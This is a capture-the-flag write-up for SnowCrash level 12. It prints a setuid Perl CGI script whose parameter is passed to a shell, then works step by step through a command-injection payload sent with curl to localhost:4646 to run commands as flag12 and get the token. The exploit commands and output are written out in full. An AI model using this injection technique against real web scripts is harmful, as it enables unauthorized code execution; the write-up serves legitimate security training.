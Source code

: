 # LEVEL 12

## Vulnerability

Privilege escalation via CGI code injection 

## Main concepts encountered

Perl, CGI, regex

## Initial context

In our home directory, we see a perl script with suid/guid bit and extended permissions:

```
level12@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x+ 1 flag12 level12 464 Mar  5  2016 level12.pl
```

## Solving the challenge

First, let's understand what the script does:

```
level12@SnowCrash:~$ cat level12.pl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/;
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }
}

n(t(param("x"), param("y")));
```

We see that it binds itself to port 4646 and sets up a Common Gateway Interface expecting parameters x and y.
It then runs the n subroutine, which runs the t subroutine with parameters x and y, and evaluates its output.
In subroutine t, we see it will run a subprocess to change directory to /tmp, execute an egrep there and evaluate its output.
We should be able to exploit this, since the perl script will be run with flag12 as effective user.
We'd like to inject code via the x parameter, to have it be executed alongside the grep command.

To provide the correct input, we should first take into account the transformations applied to the x argument:

- `$xx =~ tr/a-z/A-Z/`: all letters will be uppercased
- `$xx =~ s/\s.*//`: the argument must start with a whitespace characters, followed by characters. Anything from the first non-character will be ignored.

This means that:

- we can't provide a regular command since it will be capitalized:
  ```
  level12@SnowCrash:/tmp\$ ./level12.pl x="getflag"
  Content-type: text/html

  xx = GETFLAG
  ```

- we can't use an environment variable since everything from the $ will be ignored:
  ```
  level12@SnowCrash:/tmp$ ./level12.pl x="\$TEST"
  Content-type: text/html

  xx =
  ```
So one solution could be to store our command in a file, with a name in uppercase to respect the regex check:
```
level12@SnowCrash:/tmp$ echo "whoami > /tmp/user" > WHOAMI
level12@SnowCrash:/tmp$ cat /tmp/WHOAMI
whoami > /tmp/user
```
What we need now is to run the file as we pass the argument, so that the script's command substitution be done on its content.
Let's see what happens if we try to run the script (with backticks, to respect the single-word constraints).

```
level12@SnowCrash:/tmp$ `WHOAMI`
WHOAMI: command not found

level12@SnowCrash:/tmp$ `/tmp/WHOAMI`
level12@SnowCrash:/tmp$ cat user
level12
```

We see that we must use the file's absolute path for this to work, but don't forget that the script will transform this input:

```
level12@SnowCrash:/tmp$ ./level12.pl x="/tmp/WHOAMI"
Content-type: text/html

xx = /TMP/WHOAMI
```

So we need to find a way to avoid using characters for the dirpath:

```
level12@SnowCrash:/tmp$ ./level12.pl x="/*/WHOAMI"
Content-type: text/html

xx = /*/WHOAMI
```

If we provide the output of this file:

```
level12@SnowCrash:/tmp$ ./level12.pl x="`/*/WHOAMI`"
-bash: /tmp/WHOAMI: Permission denied
```

We see we need to allow other users to execute it:

```
level12@SnowCrash:/tmp$ chmod a+x WHOAMI
level12@SnowCrash:/tmp$ ./level12.pl x="`/*/WHOAMI`"
Content-type: text/html

.level12@SnowCrash:/tmp$ cat user
level12
```

According to the conf, the web server running on port 4646 should execute the script as flag12:

```
level12@SnowCrash:/tmp$ cat /etc/apache2/sites-enabled/level12.conf
<VirtualHost *:4646>
	DocumentRoot	/var/www/level12/
	SuexecUserGroup flag12 level12
	<Directory /var/www/level12>
		Options +ExecCGI
		DirectoryIndex level12.pl
		AllowOverride None
		Order allow,deny
		Allow from all
		AddHandler cgi-script .pl
	</Directory>
</VirtualHost>
```

Let's check this:

```
level12@SnowCrash:/tmp$ curl '127.0.0.1:4646?x="`/*/WHOAMI`"'
..level12@SnowCrash:/tmp$ cat user
flag12
```

So now, let's repeat everything with getflag:

```
level12@SnowCrash:/tmp$ echo "getflag > /tmp/token" > GETFLAG && chmod a+x GETFLAG
level12@SnowCrash:/tmp$ curl '127.0.0.1:4646?x="`/*/GETFLAG`"' && cat token
..Check flag.Here is your token : XXXXXXXXXXXXXXXXXXXXXXXX
```
